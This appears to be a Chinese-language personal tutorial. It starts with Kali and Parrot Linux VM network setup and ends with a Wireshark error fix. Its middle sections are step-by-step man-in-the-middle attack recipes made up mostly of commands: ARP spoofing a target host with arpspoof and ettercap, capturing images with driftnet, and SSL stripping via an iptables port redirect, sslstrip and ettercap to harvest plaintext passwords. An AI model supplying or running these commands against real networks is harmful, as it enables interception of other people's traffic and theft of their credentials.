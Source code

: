 #ARP欺骗
##1.Kali的网络配置
> **上网方式**
   1.桥接   （宽带下不可用！！！）

***虚拟机与主机在同一个网段中***，并且也要为虚拟机分配一个IP地址（不要与主机IP地址相同，也不要与主机所在局域网中的其他计算机IP地址相同），为虚拟机设置子网掩码、网关地址、DNS地址。除了IP地址不同，其他都相同。
> 2.NAT

虚拟机使用“NAT”（即VMnet8）虚拟网卡，并且在虚拟机中设置为“自动获得地址”，虚拟机就可以上网

> **网络故障问题的解决方法**
> 
>1.查看自己ip地址、子网掩码等信息

    ifconfig 
如不显示inet地址，则可能是smbd.server没开，应输入
     
    /etc/init.d/smbd start
或输入

	dhclient eth0
命令来获取IP地址
再输入ifconfig命令，就能看到eth0已经有IP地址了



> 2.配置网络

    vi /etc/network/interfaces

修改为如下形式
            #This file describes the network interfaces available on your system             
            # and how to activate them. For more information, see interfaces(5).
 
            # The loopback network interface
             auto lo
             iface lo inet loopback
 
            # The primary network interface
            allow-hotplug eth0
            iface eth0 inet static                //配置eth0使用默认的静态地址
            # address 192.168.0.133        //设置eth0的IP地址
            # netmask 255.255.255.0          //配置eth0的子网掩码
            # gateway 192.168.0.254        //配置当前主机的默认网关
              waddress ether 00:50:56:3D:9E:D2      //配置MAC地址

修改文件夹内文本数据时用vi命令，i键进入修改模式，修改后按ESC退出修改模式，输入 ：w 保存，输入 ：q 退出文件
> 配置DNS

Kali Linux的DNS服务器地址使用文件“/etc/resovl.conf”进行配置，用户可以通过“nameserver”配置项设置DNS服务器的 IP地址；
“resolv.conf”文件中最多可以使用“nameserver”指定３个DNS服务器，按照先后的顺序，一旦前面的DNS服务器失效，系统将自动使用后面的DNS服务器。
对于“resolv.conf”文件设置“nameserver”的修改是即时生效的，即只要对“resolv.conf”文件的修改进行了保存，在系统下一次需要进行域名的解析时就会按照该文件中指定的DNS服务器IP地址进行域名的解析。

           vi /etc/resovl.conf
修改格式如下
         # Generated by NetworkManager
         nameserver 192.168.229.2     //Nat模式下为虚拟机网卡IP，桥接模式下为主机分配的IP
         nameserver 114.114.114.114
         nameserver 8.8.8.8
> 重启网卡

         /etc/init.d/networking restart
> ping

      ping 114.114.114.114
      ping 8.8.8.8


##2.ARP欺骗方法
> nmap扫描内网主机

       nmap -sP 192.168.0.0/24

查看目标主机操作系统信息
       
      nmap -O 192.168.0.133
> 开启流量转发功能

    echo 1 >> /proc/sys/net/ipv4/ip_forward

> 使用arpspoof或ettercap，选一个进行arp欺骗。获取从192.168.0.1（路由器） 到 192.168.0.21（目标机）的流量。

使用arpspoof（无线网络下，有线网络则先ip，后网关）：

          arpspoof -i eth0 -t 192.168.1.1(网关) 192.168.1.*(ip)
          arpspoof -i eth0 -t 192.168.0.1  192.168.0.21

使用ettercap：

     ettercap -T -q -M ARP /192.168.0.21// ///

> driftnet图片流量监控

     driftnet -i eth0








#SSLstrip（利用parrot）#
##1.parrot配置##
> parrot的软件安装

          apt-get install 工具名
          apt-get install parrot-tools-full  
                                  //将装入full版parrot

更换更新源
        vi /etc/apt/sources.list.d/parrot.list

中科大源
        #stable repository
        deb http://mirrors.ustc.edu.cn/parrot/ parrot main contrib non-free
        #deb-src http://mirrors.ustc.edu.cn/parrot/ parrot main contrib non-free
清华源
        #stable repository
        deb http://mirrors.tuna.tsinghua.edu.cn/parrot/ parrot main contrib non-free
        #deb-src http://mirrors.tuna.tsinghua.edu.cn/parrot/ parrot main contrib non-free

安装VMtools

        sudo apt-get update
        sudo apt-get install open-vm-tools-desktop fuse
        然后重新登录
         
> parrot网络配置

同kali（vim出现某些问题，需到相应路径下以管理员身份打开）

> 流量转发（以下需在root模式下）

           echo 1 > /proc/sys/net/ipv4/ip_forward

> 配置路由表(iptables),把80端口的数据传送到8080端口,也就是SSL欺骗需要监听的端口

      iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080

> 显示网关地址

           route -n

> nmap

                 nmap -sP [网关地址]/24
> 欺骗

            arpspoof -i [网卡] -t [目标ip] [网关ip]
            arpspoof -i eth0 -t 192.168.1.100 192.168.0.1

在使用arpspoof进行流量转发的时候

如果目标机器是使用无线连接的网络,则需要反向转发，即先网关，后ip

命令应该为:

        arpspoof -i eth0 -t 192.168.1.1(网关) 192.168.1.*(ip)
> 监听

           sslstrip -l 8080
> 查看报文

           cat sslstrip.log
> 实时截获http明文传输的密码

      ettercap -Tq -i eth0


#Wireshark报错解决方案

解决方案：修改init.lua

直接运行wireshark的话会报错：

Lua: Error during loading:
[string "/usr/share/wireshark/init.lua"]:45: dofile has been disabled

要对其进行修改，终端运行


      sudo vi /usr/share/wireshark/init.lua
倒数第二行原来为：dofile(DATA_DIR.."console.lua")

改为     
          
      --dofile(DATA_DIR.."console.lua")